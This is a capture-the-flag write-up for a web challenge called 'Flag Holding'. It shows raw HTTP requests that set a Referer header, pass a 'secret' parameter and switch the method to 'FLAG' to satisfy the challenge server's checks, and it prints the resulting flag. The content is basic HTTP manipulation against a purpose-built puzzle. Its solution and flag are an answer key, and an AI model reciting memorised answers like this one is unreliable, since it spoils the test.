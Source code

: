 # Flag Holding

## Description
> Hopefully you know how web works...
> 
> http://18.184.219.56:8080/

## Solution
The server prompts us the requirements to get the flag by modifying request header. 

> You are not coming from "http://flagland.internal/”
- Use `Referer` header to http://flagland.internal/

```
GET / HTTP/1.1
Host: 18.184.219.56:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://flagland.internal/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
> Unspecified "secret"
- Looks like we have to send `secret` parameter. Just assign any value.
```
GET /?secret=a HTTP/1.1
Host: 18.184.219.56:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://flagland.internal/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

> Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... —>
- We need to change `secret` value. The answer is `http`.
```
GET /?secret=http HTTP/1.1
Host: 18.184.219.56:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://flagland.internal/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

> Sorry we don't have "GET" here but we might have other things like "FLAG”.
- We need to change `GET` method to `FLAG`.
```
FLAG /?secret=http HTTP/1.1
Host: 18.184.219.56:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://flagland.internal/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
```html
<body>
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
</body>
```
## Flag
```
MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}
```
